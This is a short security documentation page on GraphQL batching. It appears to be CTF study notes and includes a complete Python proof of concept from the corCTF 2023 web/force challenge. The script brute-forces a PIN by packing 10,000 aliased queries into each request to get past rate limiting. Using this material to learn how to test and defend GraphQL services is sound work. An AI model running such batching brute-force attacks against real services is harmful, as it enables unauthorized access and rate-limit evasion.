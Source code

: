 ```yaml
---
title: "GraphQL"
description: "Overview of GraphQL"
lead: "Overview of GraphQL"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## GraphQL Batching

**GraphQL batching** allows clients to **combine multiple GraphQL queries into a single request**. Instead of making several individual requests, clients can bundle multiple queries together and send them to the server in one HTTP POST request. The server then processes these queries together and returns a batched response with the requested data.

This can be used to bypass HTTP rate limiting. Example with the write up of the challenge: `corCTF 2023 - web/force`:

{{< details "GraphQL Batching - Example PoC" >}}
```python
import requests
import random
from string import ascii_letters


URL = "https://web-force-force-2c910d4f6aa5eee1.be.ax"
MAX_CONCURENT = 10_000
QUERY = "$RANDOM$:flag(pin: $PAYLOAD$)"


def random_name():
    """Generates a random key for the GraphQL query"""
    return "".join(random.choice(ascii_letters) for i in range(8))

def check_sucess(resp, tasks):
    """Checks if the response contains the flag"""
    data = resp.json()["data"]

    for key, value in data.items():
        if value != "Wrong!":
            print(tasks[key], value)
            return True
    return False

def brute_force():
    """Brute force using GraphQL batching"""
    tasks = {}
    i = 0

    while i < 10 ** 5:
        payload = "{"
        for _ in range(0, MAX_CONCURENT):
            random_key = random_name() 
            guess_value = str(i)
            tasks[random_key] = guess_value

            payload += " " + QUERY.replace("$RANDOM$", random_key).replace("$PAYLOAD$", guess_value)
            i += 1
        payload += " }"

        resp = requests.post(
            URL,
            headers={"Content-Type": "text/plain;charset=UTF-8"},
            data=payload,
            proxies={
                "http": "127.0.0.1:8080",
                "https": "127.0.0.1:8080"
            },
            verify=False
        )

        if check_sucess(resp, tasks):
            return

if __name__ == "__main__":
    brute_force()
```
{{< /details >}}